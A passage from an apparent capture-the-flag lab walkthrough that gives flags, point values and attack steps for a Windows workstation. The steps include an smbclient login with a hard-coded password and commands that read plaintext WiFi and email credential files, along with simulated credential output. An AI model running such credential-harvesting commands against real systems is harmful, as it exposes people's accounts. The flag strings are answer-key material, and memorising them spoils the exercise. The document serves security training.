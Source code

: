 **Why:** Workstations are often targets for lateral movement via PTH, especially to access other workstations or servers.

---

## FLAG 6: WiFi Password File (10 points - Easy)
**Location:** WiFi Password File  
**Flag:** FLAG{PIDGEOT09053920}

### Attack Method: Sensitive File Discovery

```bash
# Via SMB share
smbclient //$TARGET_WS/Users -U jsmith%Welcome1
smb: \> cd Public\Documents
smb: \> get wifi.txt
```

```powershell
# Or locally
type C:\Users\Public\Documents\wifi.txt
```

**Screenshot Simulation:**
```
WiFi Password: SecureWiFi2024!
Backup Network: GuestWiFi2024
Flag: FLAG{PIDGEOT09053920}
```

**Why:** Workstations often store WiFi passwords and network credentials in plaintext files.

---

## FLAG 7: Email Credentials (15 points - Easy)
**Location:** Email Credentials  
**Flag:** FLAG{FEAROW08818758}

### Attack Method: Password Folder Exploration

```powershell
# Navigate to common password storage locations
dir C:\Users\Public\Documents\Passwords\
type C:\Users\Public\Documents\Passwords\email.txt
```

**Screenshot Simulation:**
```
Email: jsmith@overclock.io / Welcome1
Backup: admin@overclock.io / Password123!
// FLAG{FEAROW08818758}
```

**Why:** Users often store credentials in obvious locations like "Passwords" folders.

---